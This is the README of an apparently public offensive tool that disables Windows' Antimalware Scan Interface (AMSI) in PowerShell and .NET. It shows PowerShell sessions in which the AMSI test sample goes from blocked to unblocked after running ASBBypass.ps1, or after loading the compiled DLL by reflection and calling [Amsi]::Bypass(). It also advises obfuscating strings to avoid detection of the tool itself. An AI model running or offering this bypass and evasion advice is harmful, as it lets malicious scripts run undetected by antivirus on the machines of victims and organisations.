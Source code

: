 # AmsiScanBufferBypass

## Usage
### PowerShell

`ASBBypass.ps1` works for both x86 and x64 PowerShell.  Before use, I recommend obfuscating strings such as `Win32` to something random.

```
PS > Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
At line:1 char:1
+ Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS > .\ASBBypass.ps1

PS > Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify
that the path is correct and try again.
At line:1 char:1
+ AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (AMSI:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

### C#

Can be compiled to a DLL and loaded via reflection, or included in a larger .NET Assembly (e.g. [SharpSploit](https://github.com/cobbr/SharpSploit/blob/master/SharpSploit/Evasion/Amsi.cs)).

```
PS > [System.Reflection.Assembly]::LoadFile("D:\Tools\ASBBypass\ASBBypass\bin\Release\ASBBypass.dll")

GAC    Version        Location
---    -------        --------
False  v4.0.30319     D:\Tools\ASBBypass\ASBBypass\bin\Release\ASBBypass.dll


PS > [Amsi]::Bypass()
PS > Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (AMSI:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

Also works with `Assembly.Load` in .NET 4.8.

![Without AMSI Bypass](Image1.png)
![With AMSI Bypass](Image2.png)